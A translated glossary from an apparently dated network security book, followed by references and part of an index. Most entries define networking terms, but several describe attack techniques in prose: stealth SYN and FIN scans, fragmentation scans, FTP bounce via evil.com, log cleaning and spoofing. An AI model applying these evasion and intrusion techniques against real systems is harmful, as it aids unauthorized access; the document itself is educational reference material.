### 网络朋克（Cyberpunk）

兼具黑客、破解者和/或飞客特征的人。在某些情况下，这是一种非常危险的组合。

### DAA（指定审批机构）

有权授权处理（认可）自动化信息（主要应用或通用支持）系统的高级管理官员，并接受与该系统相关的风险。

### 数据报

互联网的基本传输单元。IP数据报是在IP模块之间传输的数据单元。

### 数据报参数问题（ICMP类型12）

指定阻碍进一步处理的数据报头问题。该数据报将被丢弃，并传输类型12消息。

### 数据报时间超出（ICMP类型11）

如果网关或路由器因生存时间（TTL）字段设置为0而被迫丢弃数据报，则会发出类型11消息。基本上，如果路由器在截获数据报时检测到TTL=0，它必须丢弃该数据报并发送ICMP类型11消息。

### 解复用

将已复用到公共流中的流分离回多个输出流。

### 目的不可达（ICMP类型3）

一种具有多种情况的消息类型，包括当路由器或网关不知道如何到达目的地址时、当协议或应用未激活时、当数据报指定了不稳定路由时，或当路由器必须对数据报进行分片但因设置了不分片标志而无法进行时。

### 发现

攻击者进行的初始"足迹收集"或信息收集，以促进导致成功黑客攻击的计划。

### 域名服务或系统（DNS）

通往互联网的网关服务，将域名转换为IP地址。域名是一个基于字符的标识符，标识一个或多个IP地址。此服务存在的原因仅仅是因为字母域名比IP地址更容易让人们记住。域名服务将这些域名转换回其相应的IP地址。通过互联网传输的数据报使用地址，因此每次指定域名时，DNS服务守护进程必须将该名称转换为相应的IP地址。基本上，通过在浏览器中输入域名，例如TigerTools.net，DNS服务器将这个字母域名映射到一个IP地址，用户被转发到该地址以查看网站。DNS在本地网络上的工作方式类似。通过使用域名服务，管理员和用户访问其网络上的系统时不必依赖IP地址。

### DMZ（非军事区）

在防火墙之外引入另一个网络区域，但与内部局域网分离的区域。

### DSL（数字用户线路）

一种高速互联网连接，可提供比当前ISDN和模拟技术快6到30倍的速度，而成本仅为可比较服务的一小部分。此外，DSL使用家庭中已有的电话线。

### 动态路由

路由器与相邻或邻近路由器"交谈"的过程，以指示每个路由器当前"认识"哪些网络。路由器使用路由协议进行通信，其服务源自路由守护进程。根据协议的不同，从路由器传递到路由器的更新由特定端口发起。

### 回显应答（ICMP类型0）/回显请求（ICMP类型8）

测试两个节点之间可能通信的基本机制。如果可用，要求接收站回复PING，即Packet INternet Groper（分组互联网探测器）的缩写。PING是一种用于测试特定计算机IP地址是否活跃的协议；它使用ICMP向其IP地址发送数据包并等待响应。

### 封装

关于IP，是指数据报在帧中跨媒体传输的过程。

### 错误检查

通常在面向连接的会话上执行的功能，通过该功能检查每个数据包是否缺少字节。此过程中涉及的主要值称为校验和。通过此程序，发送站计算校验和值并传输数据包。当接收到数据包时，目的站重新计算该值以确定校验和是否匹配。如果匹配发生，接收站处理数据包。如果传输中存在错误，且校验和重新计算不匹配，则提示发送者重新传输数据包。

### 误码率

在数据传输中，传输的错误元素数量与传输元素总数之比。

### 以太网，10Base5

使用粗同轴（coax）电缆的以太网，电缆类型为RG08。从网卡连接的连通性通过收发器电缆传输到外部收发器，最后通过粗同轴电缆。由于信号衰减，一段电缆限制在500米以下，每段最多100个站，总计1,024个站。

### 快速以太网，100BaseT

为适应带宽密集型应用和网络扩展，快速以太网联盟推广了100-Mbps技术。该联盟由3Com公司、DAVID Systems、Digital Equipment Corporation、Grand Junction Networks, Inc.、Intel Corporation、National Semiconductor、SUN Microsystems和Synoptics Communications组成。

### 快速转发

（也称为直通交换）*参见* 直通交换（Cut-through）。

### FDDI（光纤分布式数据接口）

本质上是一种使用光纤电缆的高速令牌环网络，具有冗余故障转移功能。


#### **文件重传**

重新发送整个文件或文件子集的行为，通常是因为应用程序未能有效利用网络。

#### **文件服务器**

可通过局域网（LAN）被多台计算机访问的网络设备。它负责管理多用户通信网络上的文件和数据传输，并向局域网中的节点"提供"文件服务。

#### **泛洪攻击**

一种恶意渗透攻击。例如，SYN攻击，攻击者可以针对整台机器或特定的TCP服务（如HTTP（端口80）Web服务）发起攻击，并用请求淹没该服务。这种攻击似乎主要针对互联网上所有计算机都使用的TCP协议。

#### **踩点**

攻击者为了促成最终导致成功黑客攻击的计划而进行的初始发现或信息收集工作。

#### **无碎片交换**

一种交换技术，读取帧直到数据末尾并转发数据，而不运行循环冗余校验（CRC）。

#### **分片**

当数据报在帧中传输并跨越具有不同指定大小限制的网络类型时，路由器有时必须将数据报分割以适应较小的MTU；这个过程称为分片。

#### **分片扫描**

对其他扫描技术的改进，探测数据包被分割成几个小的IP片段。本质上，TCP头部被拆分到多个数据包中，使数据包过滤器更难检测正在发生的事情。

#### **帧**

串行发送（一个接一个）的一组比特，包括源地址、目的地址、数据、帧校验序列和控制信息。通常，帧是一个逻辑传输单元。它是面向比特协议中使用的基本数据传输单元。

#### **帧冻结**

挂起的应用程序或无响应的站点。

#### **FTP反弹攻击**

FTP协议（RFC959）的一个有趣"特性"是支持"代理"FTP连接。换句话说，你应该能够从evil.com连接到target.com的FTP服务器-PI（协议解释器）来建立控制通信连接。然后你应该能够请求服务器-PI启动一个主动的服务器-DTP（数据传输进程），将文件发送到互联网上的任何地方。

#### **全双工连接**

双向同时传输流，以减少整体网络流量。

#### **通用支持系统**

在同一直接管理控制下的互联信息资源，共享通用功能。通用支持系统通常包括硬件、软件、信息、数据、应用程序、通信、设施和人员，并为各种用户和/或应用程序提供支持。单个应用程序支持不同的任务相关功能。用户可能来自同一组织或不同组织。

#### **千兆以太网，1000BaseT**

为骨干基础设施设计提供1000 Mbps技术，以满足带宽密集型应用和网络扩展的需求。

#### **GUI（图形用户界面）**

一种前端环境，以图标、菜单和对话框的形式在屏幕上表示程序、文件和选项，为底层命令行程序提供指令。用户通过鼠标设备指向并点击，或通过键盘来激活选项。

#### **黑客**

严格来说，是指全身心投入计算机技术和计算机编程的人；喜欢研究操作系统和其他程序的代码以了解其工作原理的人。无论黑客的兴趣在于硬件、操作系统、协议还是安全，他或她都会搜寻关于这一兴趣的每一点知识，并报告任何技巧或秘密。通常，结果会包括使用或改进设备、协议或操作系统的新方法。近来，该术语已被错误地用来描述几乎任何形式的非法电子入侵者的非法行为。

#### **黑客技术手册**

对发展黑客知识基础至关重要的关键概念合集。

#### **握手**

在会话建立期间提供控制信息交换的过程，例如端到端的链路速度。

#### **硬件地址**

绑定到每个NIC的唯一48位地址。

#### **高比特率数字用户线路（HDSL）**

最成熟的DSL技术，HDSL继续被电话公司用于以1.5 Mbps部署T1线路。HDSL需要两对双绞线。

#### **HTML（超文本标记语言）**

一种标签和代码语言，程序员可以用它生成可查看的网页信息页面。

#### **集线器**

星型拓扑网络的中心，也称为多端口中继器。集线器从一个端口接收信号并再生，然后重传到一个或多个连接的其他端口。

#### **个人问责制**

一项政策，要求个人用户对其行为负责，在收到关于计算机系统使用规则的通知后遵守规则，并承担违反这些规则的相应处罚。*参见* 行为规则。

#### **Inetd**

一种守护进程控制程序，处理*NIX系统上运行的网络服务。

#### **信息请求（ICMP类型15）/信息回复（ICMP类型16）**

作为RARP的替代方案，站点使用类型15和类型16来获取它们所连接网络的互联网地址。发送站将发出消息，包含互联网地址的网络部分，并等待回复，其中主机部分（其IP地址）已填写。*参见* RARP，反向地址解析协议。

#### **互联网控制消息协议（ICMP）**

IP协议的扩展，ICMP传递消息和控制数据包，向网络层的发送站或源报告错误（例如，"目标不可达"）和其他相关信息。主机和基础设施设备使用此机制来通信与IP数据包处理相关的控制和错误信息。

#### **InterNIC**

负责分配和控制互联网上使用的所有网络地址的组织。已定义三个类别，由32位数字组成，即A类、B类和C类。

#### **入侵防御机制**

用于防范实际渗透攻击的技术或软件/硬件安全程序。

#### **IP（互联网协议）**

一个ISO标准，定义了OSI模型第3层（网络层）的一部分，负责路由和传递。IP支持在由固定长度地址标识的主机之间传输数据块（数据报）。

#### **IPX（网际数据包交换）**

最初用于在互联网络中路由数据包的NetWare协议。IPX是一种无连接数据报协议，因此它与其他不可靠的数据报传递协议（如互联网协议）相似。

#### **ISDN（综合业务数字网络）**

允许站点共享激光打印机和大容量硬盘等资源。

**延迟** 网络站点寻求访问传输信道与获得或收到访问许可之间的时间间隔。与等待时间相同。

**链路控制层协议（LCP）** 使用LCP，通过四个步骤，PPP支持建立、配置、维护和终止通信会话：

1. LCP打开连接，并通过配置确认帧协商配置参数。
2. 进行可选的链路质量检查，以确定是否有足够的资源用于网络协议传输。
3. NCP协商网络层协议配置和传输。
4. LCP发起链路终止，假设未发生载波丢失或用户干预。

*参见* PPP，点对点协议。

**日志清理** 访问系统时编辑审计轨迹以"掩盖痕迹"。

**MAC（介质访问控制）地址** 绑定到每个NIC的唯一48位地址。

**邮件炸弹** 用于崩溃收件人电子邮箱的电子邮件；或通过使用目标的SMTP网关发送未经授权的邮件来发送垃圾邮件。邮件炸弹可能采用附加巨大文件的单一电子邮件形式，或数千封电子邮件，目的是淹没邮箱和/或服务器。

**邮件垃圾** 试图向未经请求而不愿接收的人传递非请自来的电子信息。最常见的例子是商业广告。邮件垃圾引擎在互联网上出售，目前数十万个电子邮件地址助推了垃圾邮件的爆炸性增长。

**主要应用** 由于信息丢失、滥用、未经授权访问或修改所 inherent 的风险程度，需要特殊安全措施的计算机程序。主要应用的漏洞可能包含许多单个应用程序以及硬件、软件和电信组件。主要应用可以是主要软件应用，或硬件/软件的组合系统，其唯一目的是支持特定的任务相关功能。

**触发执行** 病毒"有效载荷"开始生效的时间点，如在特定日期（例如，星期五13日或1月1日），或由事件触发（例如，第三次重启或在计划的磁盘维护程序期间）。


### MAU（多站访问单元）

在令牌环网络中连接各站点的设备。每个 MAU 形成一个环形回路。

### MTU（最大传输单元）

在系统间的通信序列中，通过数据链路连接可传输的最大 IP 数据报。MTU 值是一个双方协商一致的值，即链路两端同意使用相同的特定值。

### 复用（Multiplexing）

将多个信号同时传输到输入流、跨单个物理信道传输的方法。

### NetBEUI（NetBIOS 扩展用户接口）

一种不可靠的协议，可扩展性有限，用于本地 Windows NT、LAN Manager 和 IBM LAN Server 网络中的文件和打印服务。

### NetBIOS（网络基本输入/输出系统）

最初设计为 IBM PC 网络通信协议接口的 API。它已被扩展，使得使用 NetBIOS 接口编写的程序能够在许多流行网络上运行。

### 网络拥塞

在网络中，当数据量过大导致路由表更新无法完成、硬件缓存无法处理流量负载、以及无连接协议无法完成其传输时，就会发生网络拥塞。

### 网络控制协议（NCP）

在 PPP 通信过程的第 3 步启动，NCP 建立、配置并传输多个同时的网络层协议。*参见* PPP，点对点协议。

### 网络接口卡（NIC）

插入计算机中用于连接网络的板卡。

### 噪声

用户通信流之外的任何传输，会对信号造成干扰。噪声干扰可能导致带宽下降，甚至可能造成完全的信号丢失。

### Novell Proprietary

Novell 最初的封装类型；也称为 Novel Ethernet 802.3 和 802.3 Raw。

### 操作控制

关注安全方法的控制措施，主要侧重于由人员（而非系统）实施和执行的机制。

### OSI（开放系统互连）模型

一套七层的硬件和软件指导原则，被普遍接受为整体计算机通信的标准。

### OSI 第 1 层：物理层

OSI 模型中负责通过物理通信介质进行比特流的电气和机械传输的层次。物理介质的例子包括网络接口卡（NIC）、屏蔽或非屏蔽布线，以及以太网和令牌环等拓扑结构。

### OSI 第 2 层：数据链路层

通过物理层跨物理网络提供可靠数据传输的 OSI 层次。数据链路层有两个子层：MAC，负责用 MAC 地址封装数据包、错误检测，以及定义总线、星型或环型等物理拓扑；以及逻辑链路控制（LLC），其主要目标是通过使其独立于不同的局域网来保持上层协议的标准化。

### OSI 第 3 层：网络层

路由协议和逻辑网络寻址在此 OSI 模型层次上运行。逻辑寻址的例子包括 IP 和互联网数据包交换（IPX）地址。定义于此层的路由协议例子是路由信息协议（RIP）。

### OSI 第 4 层：传输层

TCP 和用户数据报协议（UDP）是在此层运行的网络协议。因此，该层负责节点之间可靠的、面向连接的通信，以及提供来自更高层的透明数据传输，并具备错误恢复能力。

### OSI 第 5 层：会话层

第 6 层使用的会话建立由该层形成、管理和终止。基本上，该层定义了表示层上节点之间的数据协调。Novell 服务访问点（SAP）和 NetBEUI 是在会话层运行的协议。

### OSI 第 6 层：表示层

负责向第 7 层呈现数据的 OSI 层次。数据编码、解码、压缩和加密在此层完成，使用的编码方案包括 GIF、JPEG、ASCII 和 MPEG 等。

### OSI 第 7 层：应用层

通过提供用户界面，该层将网络带入应用程序，并执行应用同步和系统进程。定义于此层的常见服务包括文件传输协议（FTP）、简单邮件传输协议（SMTP）和万维网（WWW）。

### 数据包

一束数据，通常为二进制形式。

### 包过滤防火墙

一种主机或路由器服务，在通过特定接口将每个数据包路由到目标网络和/或节点之前，根据策略或规则进行检查。

### 密码破解程序

一种加密长字符串列表的程序，例如字典中的所有单词，并将其与密码的加密文件进行比对。如果找到哪怕一个匹配项，入侵者就已获得系统访问权限。

### 电话飞客（Phreaker）

侵入电话网络或其他安全电信系统以了解其工作原理的人。例如，在 20 世纪 70 年代，电话系统使用可听音调作为交换信号，电话飞客使用自己定制的硬件来匹配这些音调，从而窃取长途服务。尽管如今大多数提供商使用了复杂的安全屏障，但此类服务盗窃在全球范围内仍相当普遍。

### PING（分组互联网探索器）

一种测试特定计算机是否"存活"或已连接的工具——即，在这种情况下是否响应 ICMP 回显请求。PING 发送一个 ICMP 回显请求数据包。当目标系统收到请求时，它会用回显应答进行响应，将原始回显请求数据包放入回显应答的数据字段中。

### POP（邮局协议）

用于从邮件服务器守护程序检索电子邮件的协议。POP 基于客户端/服务器拓扑结构，其中电子邮件由邮件服务器接收并保存，直到客户端软件登录并提取消息。

#### 端口

TCP/IP 和 UDP 网络的逻辑连接端点。

### 端口监视器/拦截器

微型防火墙。在此语境中，前缀"微型"指的是个人终端系统防御机制，而非指更小或更少。

### PPP（点对点协议）

一种封装协议，提供通过串行或租用线路点对点链路传输 IP 的能力。

### 基群速率接口（PRI ISDN）

在美国，这种服务类型提供 23 个 B 通道和 1 个 D 通道，以 64 Kbps 运行，总计 1.54 Mbps 的可用传输带宽。

### 优先级

在令牌环中，有两个优先级字段允许站点在令牌使用上具有优先权：优先级字段和预留字段。优先级等于或高于令牌中设置值的站点可以通过优先级获取该令牌。传输完成后，优先级站点必须恢复先前的优先级值，以便正常的令牌传递操作可以继续。

### 混杂模式

当网络接口卡（NIC）复制所有流量进行自我分析，而非参与网络通信时的状态。

### 协议

一套用于计算机网络通信的规则。

### 代理防火墙

具有双网络接口卡（NIC）的服务器，其路由或数据包转发功能已停用，改为使用代理服务器守护程序。对于每个需要通过此网关的应用程序，必须安装并运行相应的软件来进行代理。

### PVC（永久虚电路）

DTE 设备之间通过帧中继进行频繁数据传输的永久通信会话。

### RARP（反向地址解析协议）

一种允许站点广播其硬件地址的协议，期望服务器守护程序响应一个可用的 IP 地址供该站点使用。

### 速率自适应数字用户线路（RADSL）

使用修改后的 ADSL 软件，RADSL 使调制解调器能够自动动态地调整其传输速度。这通常为距离较远的客户提供了良好的数据速率。

### 重定向主机

由路由器或网关发送的 ICMP 消息，用于通知站点要么存在更好的路由，要么路由不可用。

### 参考点（ISDN）

ISDN 规定了多个参考点，用于定义功能组之间的逻辑接口，例如 TA 和 NT1。定义 ISDN 设备的参考点包括：R，非 ISDN 设备与 TA 之间的参考点；S，用户终端与 NT2 之间的参考点；T，NT1 与 NT2 设备之间的参考点；以及 U，NT1 设备与线路终端设备之间的参考点。

### 远程审计

针对外部服务（例如 ISP 托管、服务器和通道）进行的测试。

### 复制阶段

病毒在其影响范围内尽可能多地感染各种来源的阶段。

### 风险

对黑客攻击可能造成的任何软件、信息硬件或行政、物理、通信或人员资源的损害或损失程度的计算评估，这些资源是自动化信息系统或活动的一部分。

### 风险管理

评估黑客攻击对自动化信息资源和信息系统风险的持续过程；是基于风险的方法的一部分，用于通过分析威胁和漏洞，并选择适当的、经济有效的控制措施来实现和维护可接受的风险水平，从而确定系统的充分安全性。

### 路由重定向（ICMP 类型 5）

路由信息定期交换以适应网络变化并保持路由表更新。当路由器识别出使用非可选路由的主机时，路由器在将数据报转发到目标网络的同时发送 ICMP 类型 5 消息。因此，路由器只能向直接连接在其网络上的主机发送类型 5 消息。

### 行为规则

规定计算机系统的使用、安全性和可接受风险水平的指导原则。行为规则明确界定了个体用户和计算机系统管理员的责任和可接受行为。


**职责与期望行为**：所有有权访问系统的个人应遵守的职责和行为准则。规则涵盖在家工作、拨号接入、互联网连接、版权作品使用、联邦政府设备使用、系统权限的分配与限制以及个人问责制。

**安全账户数据库（SAM）**：在Windows NT中，用于存储和管理域账户信息的数据库。

**安全策略**：概述计算机系统安全要求的书面文件。安全策略描述了为满足这些要求而实施或计划的控制措施。

**敏感信息**：由于披露、更改或销毁可能带来重大风险而需要保护的内容。敏感信息包括任何使用不当或披露后可能对组织完成任务、保护专有信息或人员以及保护不对外公开内容的能力产生不利影响的材料。

**敏感性**：在此上下文中，指计算机系统、其应用程序和内容的至关重要性。所有系统和应用程序都具有一定程度的敏感性，据此确定保护级别，以维护机密性、完整性和可用性。

**顺序包交换（SPX）**：一种面向数据包的协议，使用一个数据包作为传输窗口大小，是最常见的NetWare传输协议。SPX在OSI第4层的IPX之上进行传输。与TCP类似，SPX提供可靠传输服务，补充了IPX中不可靠的数据报服务。对于互联网访问，Novell使用封装在UDP（最终封装在IP中）中的IPX数据报进行传输。通常使用SPX的应用程序包括R-Console和P-Console。

**服务通告协议**：网络资源（如文件服务器）通告其地址和所提供服务的方法。默认情况下，这些通告每60秒发送一次。

**服务守护进程**：为合法目的运行的系统进程或程序。

**扫描（端口扫描）**：尽可能多地扫描端口以识别那些对特定黑客攻击有响应或有用的过程。扫描程序会报告这些可响应的监听者，分析弱点，并将这些弱点与已知黑客方法的数据库进行交叉引用以进一步阐释。

**单线数字用户线路或对称数字用户线路（SDSL）**：一种改进的HDSL软件技术；SDSL旨在通过单对双绞线在距离中心局不超过8000英尺的范围内提供1.5 Mbps的双向传输。

### 站点扫描

针对内部防御进行端口和应用层测试。

### 滑动窗口

TCP的实现，使流传输更高效。滑动窗口更有效地使用带宽，因为它允许多个数据包在需要确认之前进行传输。

### 嗅探器

被动拦截并复制系统、服务器、路由器或防火墙上所有网络流量的软件程序。

### SNMP（简单网络管理协议）

通过称为协议数据单元（PDU）的消息指导网络设备管理和监控，这些消息被发送到网络的不同部分。SNMP设备称为代理，在管理信息库（MIB）中存储有关自身的信息，并将这些数据返回给SNMP请求者。

### 社会工程学

全球黑客、破解者和电话盗用者使用的一种流行技术，诱使潜在受害者透露网络访问信息。这种方法简单成功的应用包括伪装成新用户或技术人员。

### 源代码

编译后生成服务守护进程或计算机程序的编程代码。

### 源抑制（ICMP类型4）

数据报传递的基本流量控制形式。当数据报到达接收站的速度过快而无法处理时，数据报将被丢弃。在此过程中，对于每个已丢弃的数据报，都会向发送站发送一条ICMP类型4消息。源抑制消息实际上成为请求，要求降低数据报的发送速率。源抑制消息没有反向作用，即发送站不会因此增加传输速率。

### 源抑制（Source Quenching）

与缓冲配合使用，当接收方缓冲区开始达到容量时，源抑制会向源节点发送消息。接收路由器向发送方发送超时消息，指示其在缓冲区再次释放之前减慢速度。

### 欺骗（一般）

接管受信任主机的身份以破坏安全性并与目标主机建立可信通信。使用IP欺骗破坏安全性并访问网络时，攻击者首先禁用然后伪装成受信任主机。通过欺骗DNS缓存服务器，攻击者可以将访问者转发到预定网站以外的其他位置。

### 有状态过滤器

数据包过滤器的增强版本，在提供相同功能的同时还跟踪状态信息（如TCP序列号）。

### 存储转发

一种交换技术，在做出任何转发决定之前读取整个帧。这是最慢的方法，但好处是不会转发“坏数据包”。

### 流

数据被系统化并作为比特流传输，组织成8位八位字节或字节。当接收到这些比特时，它们以相同的方式传递。

### 子网划分

将分配或派生的地址类别划分为更小的、独立但相关的物理网络的过程。

### SVC和PVC（交换虚拟电路）

用于不频繁数据传输的周期性、临时通信会话。

### 同步

一种保证站点获得总可用带宽百分比的系统。

### 系统运行状态

系统开发状态的特征。系统可能是“运行中”，意味着当前正在运行；可能是“开发中”，意味着当前正在设计或实施；也可能是“正在经历重大修改”，意味着当前正在进行重新配置、更新、修复或返工。

### 系统注册表

在较新版本的Windows（95/98、Millennium、NT4、NT5、2000和XP）中的分层数据库，所有系统设置都存储在其中。注册表取代了控制Windows 3.x的所有初始化（.ini）文件。system.ini、win.ini和control.ini中的所有系统配置信息都包含在注册表中，所有Windows程序初始化和配置数据也包含在内。

### TCP（传输控制协议）

用于在计算机之间以消息单元形式发送数据的协议。TCP跟踪称为数据包的各个数据单元。

### TCP FIN扫描

一种更隐蔽的扫描形式。某些防火墙和数据包过滤器监视发送到受限端口的SYN，并且有Synlogger和Courtney等程序可用于检测这些扫描。另一方面，FIN数据包可能能够顺利通过，因为关闭的端口倾向于以正确的RST响应FIN数据包，而打开的端口则倾向于忽略相关数据包。

### TCP端口扫描

最基本的扫描形式。使用此方法，尝试建立到完整TCP端口的连接以确定该端口是否活动或“正在监听”。

### TCP反向身份扫描

一种协议，允许披露通过TCP连接的任何进程的所有者的用户名，即使该进程没有发起连接。例如，可以连接到HTTP端口，然后使用identd来确定服务器是否以root身份运行。

### TCP SYN扫描

通常称为半开扫描或隐蔽扫描，因为未打开完整的TCP连接。发送一个SYN数据包，就像打开一个真正的连接一样，等待响应。SYN/ACK表示端口正在监听。因此，RST响应表示非监听器。如果收到SYN/ACK，则立即发送RST以关闭连接。此扫描技术的主要优点是更少的站点会记录它。

### 技术控制

用于为计算机系统或应用程序提供自动保护的硬件和软件控制。技术控制在技术系统和应用程序内运行。

### 威胁

有意或无意的活动，具有对自动化信息系统或活动造成损害的潜在可能性。

### 时间戳请求（ICMP类型13）/时间戳回复（ICMP类型14）

这些提供了网络延迟计算的方法。发送站注入发送时间戳（消息发送的时间），接收站附加接收时间戳以计算估计的延迟时间并协助其内部时钟同步。

### 路由跟踪（Traceroute）

一种跟踪数据包从源到目的地并记录时间和跃点数的实用程序。这是通过发送具有短递增生存时间（TTL）字段的数据包来实现的，迫使每个主机返回数据包并标识自身。

### 特洛伊木马

一种恶意的、破坏安全性的程序，通常伪装成有用的东西，如实用程序程序、笑话或游戏下载。

### UDP（用户数据报协议）

一种通信协议，在使用IP的网络中计算机之间交换消息时提供有限的服务。

### UDP ICMP端口不可达扫描

一种使用UDP协议而非TCP的扫描方法。此协议不那么复杂，但扫描起来要困难得多。开放端口不必发送确认响应探测，关闭端口也不必发送错误数据包。幸运的是，当数据包发送到关闭的UDP端口时，大多数主机会发送ICMP_PORT_UNREACH错误。因此，可以确定端口是否关闭，并通过排除法确定哪些端口是开放的。


### UDP recvfrom() 与 write() 扫描

非 root 用户无法直接读取端口不可达错误；因此，Linux 在接收到这类错误时会间接通知用户。例如，对关闭的端口进行第二次 write() 调用通常会失败。许多扫描工具如 netcat 和 pscan.c 都采用这种方法。此技术用于非 root 用户使用 -u（UDP）时确定开放的端口。

### 超高速数字用户线路（VDSL）

VDSL 又称为宽带数字用户线路（BDSL），是最新的 DSL 技术。它可以提供最高 25 Mbps 的下行速度和 3 Mbps 的上行速度。这种速度提升只能在短距离内实现，最远约 1,000 英尺。

### 虚电路

当一个站点请求与另一个站点通信时，两个站点都会通知其应用程序并同意通信。如果这些站点之间的链路或通信中断，两个站点都会察觉到故障并通知各自的应用软件。在这种情况下，将尝试协调重传。

### 病毒

一种计算机程序，通过利用并需要宿主程序来自我复制。

### VLSM（可变长子网掩码）

通过路由协议广播子网信息。

### 漏洞

一种缺陷或弱点，可能导致自动化信息系统或活动受到损害。

## WAN（广域网）

连接地理上分散系统的通信网络。

### 拨号扫描（Wardialing）

攻击者使用的技术，用于扫描电话号码并记录应答载波的号码。类似于电话系统中的端口扫描活动。

### 看门狗算法

在 NetWare 客户端登录到 NetWare 服务器并开始发送请求后，服务器使用看门狗进程监控客户端的连接。如果服务器在看门狗超时时间内未收到客户端的任何请求，服务器将向该客户端发送看门狗数据包。看门狗数据包本质上是一个 IPX 数据包，其中包含一个连接号和数据部分的问号（?）。接收站必须用看门狗确认数据包响应以验证连接性。如果看门狗算法已连续发送请求数据包（大约每 3 秒 10 个，持续 30 秒）而未收到确认，则假设接收站不可达，并执行单方面中止。

### 网页篡改

破坏或替换脆弱系统上的主页。

### 知名端口

计算机系统 65,000 个端口中的前 1,024 个，保留给系统服务使用；因此，外向连接的端口号将高于 1023。这意味着所有通过高于 1023 的端口通信的传入数据包实际上都是内部请求发起的连接的响应。

### Whois

一种互联网服务，使用户能够查找给定信息，例如拥有该域账户的公司或Id用户统一资源定位符（URL）。执行 whois 域名搜索查询需要在互联网上找到目标公司的网络域名。域名是连接到互联网或任何其他 TCP/IP 网络的设备的地址，该系统使用文字来识别服务器、组织和组织类型，例如 www.companyname.com。

### 窗口控制

通过此功能，端到端节点协商每传输发送的数据包数量。这个数据包数量称为窗口大小。例如，窗口大小为 3 时，源站将发送三个段，然后等待目的站的确认。收到确认后，源站将再发送三个段，依此类推。

## 参考文献

- Banks, S., "Security Policy," *Computers & Security*, vol. 9, no. 7, Oxford, UK: Elsevier Advanced Technology, November 1990, pp. 605–610.
- Bellovin, Steven M., and William Cheswick, *Firewalls and Internet Security*, Reading, MA: Addison-Wesley, 1994.
- Callon, R, RFC 2185, "Routing Aspects of IPv6 Transition," September 1997.
- Carpenter, B, RFC 1671, "IPng: White Paper on Transition and Other Considerations," August 1994.
- Carpenter, B, RFC 2529, "Transmission of IPv6 over IPv4 Domains without Explicit Tunnels," March 1999.
- Chapman, D. Brent, "Network (In)Security through IP Packet Filtering," *Proceedings of the Third USENIX UNIX Security Symposium*, 1992.
- Chapman D. Brent, Elizabeth D. Zwicky, and Deborah Russell, *Building Internet Firewalls*, Sebastopol, CA: O'Reilly & Associates, 1995.
- Cheswick, William R., *Firewalls and Internet Security: Repelling the Wily Hacker*, Reading, MA: Addison-Wesley, 1994.
- Cisco Systems, Inc., *Cisco IOS Network Security*, Indianapolis, IN: Cisco Systems, Inc., 1998.
- Clark, D.D., and D.R. Wilson, "A Comparison of Commercial and Military Computer Security Policies," *Proceedings of the 1987 IEEE Symposium on Security and Privacy* (Cat. No. 87CH2416-6), IEEE Computer Society Press, Washington, DC, 1987, pp. 184–94.
- Cohen, Frederick B., *Protection and Security on the Information Superhighway*, New York: John Wiley & Sons, Inc., 1995.
- Daemon9, route, infinity, "Project Neptune (Analysis of TCP SYN Flooding)," *Phrack Magazine*, vol. 7, no. 48, www.phrack.com.
- Daemon9, route, infinity, "IP Spoofing Demystified," *Phrack Magazine*, vol. 7, no. 48, www.phrack.com.
- Dam, Kenneth W., and Herbert S. Lin, *Cryptography's Role in Securing the Information Society*, Washington, D.C.: National Academy Press, 1996.
- Deering, S, RFC 2460, "Internet Protocol, Version 6 (IPv6) Specification," December 1998.
- Eells, Richard, and Peter Nehemkis, *Corporate Intelligence and Espionage: A Blueprint for Executive Decision Making*, New York: Free Press, 1984.
- Escamilla, Terry, *Intrusion Detection: Network Security beyond the Firewall*, New York: John Wiley & Sons, Inc., 1998.
- Ford, Warwick, *Computer Communications Security, Principals, Standard Protocols, and Techniques*, Englewood Cliffs, NJ: Prentice Hall, 1994.
- Guttman, Barbara, and Edward Roback, *An Introduction to Computer Security: The NIST Handbook*. Special Publication 800-12. Gaithersburg, MD: National Institute of Standards and Technology, October 1995.
- Hughes, Larry J., Jr., *Actually Useful Internet Security Techniques*, Indianapolis, IN: New Riders Publishing, 1995.
- Kabay, Michael E., *The NCSA Guide to Enterprise Security: Protecting Information Assets*, New York: McGraw-Hill, 1996.
- Knightmare, The, *Secrets of a Superhacker*, Port Townsend, WA: Loompanics Unlimited, 1994.
- Public Law 100-235, "Computer Security Act of 1987."
- Raxco, Inc., "Raxco Security Policy Series: VAX/VMS Standards and Guidelines," Orem, UT: 1992.
- Sterling, Bruce, *Hacker Crackdown*, New York: Bantam, 1992.
- Summers, Rita C., *Secure Computing: Threats and Safeguards*, New York: McGraw-Hill, 1997.
- Swanson, Marianne, and Barbara Guttman, "Generally Accepted Principles and Practices for Securing Information Technology Systems. Special Publication 800-14," Gaithersburg, MD: National Institute of Standards and Technology, 1996.
- Wood, Charles Cresson, "Establishing Internal Technical Systems Security Standards," *Controls & Product Guide*, Sausalito, CA: Baseline Software, 1996.
- ——"Information Security Policies Made Easy," Sausalito, CA: Baseline Software, 1996.

## 索引

### A

- AAAA（IPv6 地址）记录类型, 179
- AAA 服务器。参见认证、授权和计费（AAA）服务器
- A（地址）记录类型, 179
- 访问，未授权, 341–342
- 访问控制文件，配置, 29
- 访问控制列表（ACL）, 29, 171–178, 289, 533, 534 自定义, 30
- 访问控制机制, 532
- 访问控制, 510, 518–520, 533–535 物理, 524
- 访问控制服务，FTP, 18
- 访问控制漏洞, 454–455
- 访问过滤路由器, 227
- Access-group 命令, 176 配置, 173
- Access-list 命令, 176 配置, 172–173
- 访问列表 IP, 171–172 监控, 177–178
- 访问路由器，泛洪, 330–331
- 访问脚本，限制, 533
- Acid Shivers 服务, 119
- 确认（ACK）, 4, 5
- ACK 段, 421
- ACK 隧道守护进程软件, 420
- ACL。参见访问控制列表（ACL）
- 激活，病毒, 289
- 活动端口, 188
- 主动扫描, 290
- 主动服务器-DTP（数据传输进程）, 185
- ActiveX, 484
- ActiveX 控件, 381 恶意, 129
- 自适应交换协议, 243
- AddEditDir.frm 文件，修改, 20
- 地址掩码请求/地址掩码回复消息, 7
- 管理权限, 339
- 高级 Internet 选项模块，TigerTools, 605
- 高级安全审查后续, 486
- 高级安全模块, 234
- 受影响系统, 427, 428
- AFSDB（AFS 数据库位置）记录类型, 179
- 代理, 68
- Agere Systems，加密密钥管理, 311, 312
- AirSnort 工具, 306–307, 310
- AIX 行式打印机守护进程, 48, 442 AIX 中的漏洞, 363–364
- AIX FTPD 缓冲区溢出, 454
- 告警/事件日志记录, 542
- 告警, 542, 568, 569, 573–574
- 别名联系信息, 155
- "几乎没人拒绝 Cookie," 231–232
